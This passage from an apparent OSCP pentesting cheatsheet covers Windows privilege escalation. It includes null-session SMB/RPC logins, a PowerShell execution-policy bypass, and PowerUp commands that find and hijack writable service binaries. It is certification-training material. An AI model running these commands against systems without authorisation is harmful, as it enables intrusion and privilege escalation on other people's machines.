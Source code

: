 ## Tools
---
- [Seatbelt](https://github.com/GhostPack/Seatbelt.git) 
- [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) 

If the result for Windows doesn't display colors, add this REG value

```powershell
 REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1 
```

## Enumeration
---

[](https://github.com/BlessedRebuS/OSCP-Pentesting-Cheatsheet/blob/main/README.md#enumeration-1)

As always, enumerate all the possible things, login to SMB/SSH/Other services with default userames ad passwords or perform a _null login_ as the following

For rpcclient:

```shell
rpcclient -U "" <target>
```

For for smbclient:

```shell
smbclient -L <target> -U ""
```

## Service Binary Hijacking
---
### PowerUp

To enable the powershell scripting capability:

```powershell
powershell -ep bypass
```

Then we enable PowerUp:

```powershell
. .\PowerUp.ps1
```

To list modifiable services:

```powershell
Get-ModifiableServiceFile
```

Once we spot an interesting service, we can try to abuse it with:

```powershell
Install-ServiceBinary -Name '<SERVICENAME>'
```
